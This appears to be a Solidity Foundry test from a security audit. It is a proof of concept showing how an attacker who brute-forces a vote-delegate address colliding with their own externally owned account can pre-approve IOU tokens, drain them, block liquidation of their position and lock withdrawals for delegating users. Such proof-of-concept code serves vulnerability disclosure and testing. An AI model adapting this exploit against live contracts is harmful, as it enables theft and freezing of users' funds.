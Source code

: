 ```solidity
    // Address brute-forced by the attacker to make a VD that matches an EOA controlled by the attacker
    address minedVDCreator = makeAddr("minedUrnCreator");

    address[] users = [
        makeAddr("user1"),
        makeAddr("user2"),
        makeAddr("user3")
    ];

    uint mkrAmount = 100_000 * 10**18;

    address eoaVD;
    GemLike iou;

    function setUp() public override {
        // Call the parent setUp
        super.setUp();

        // This VD will have the same address as an EOA controlled by the attacker
        eoaVD = voteDelegateFactory.getAddress(minedVDCreator);
        iou = ChiefLike(chief).IOU();

        // Call from the EOA, the urn is not created yet
        vm.prank(eoaVD); iou.approve(attacker, type(uint).max);

        // Create the VD, can't use EOA anymore as per EIP-3607
        vm.prank(minedVDCreator); eoaVD = voteDelegateFactory.create();
        
        // Simulate several other urns
        _createUrnDepositDrawForUsers();
    }

    function testAttack1LockSelfLiquidation() external {
        _createUrnDepositDrawForUser(attacker, eoaVD);

        _testLiquidateUsingDog({user: attacker, expectRevert: false, revertMsg: ""});

        vm.prank(attacker); iou.transferFrom(eoaVD, attacker, mkrAmount);
        _testLiquidateUsingDog({user: attacker, expectRevert: true, revertMsg: "ds-token-insufficient-balance"});
    }

    function testAttack2LockWithdrawalsForOthers() external {
        _changeBlockNumberForChief();
        console.log("Voting power on eoaVD before users selected: %e", ChiefLike(chief).deposits(eoaVD));
        // Some users trusted this VD
        for (uint i; i < users.length; i++){
            address usr = users[i];
            address urn = engine.getUrn(usr, 0);
            vm.prank(usr); engine.selectVoteDelegate(urn, eoaVD);
        }

        console.log("Voting power on eoaVD after users selected: %e", ChiefLike(chief).deposits(eoaVD));

        _testLiquidateUsingDog({expectRevert: false, revertMsg: ""});
        uint eoaVdIouBalance = ChiefLike(chief).deposits(eoaVD);
        vm.prank(attacker); iou.transferFrom(eoaVD, attacker, eoaVdIouBalance);
        console.log("Voting power on eoaVD after withdrawing IOU: %e", ChiefLike(chief).deposits(eoaVD));

```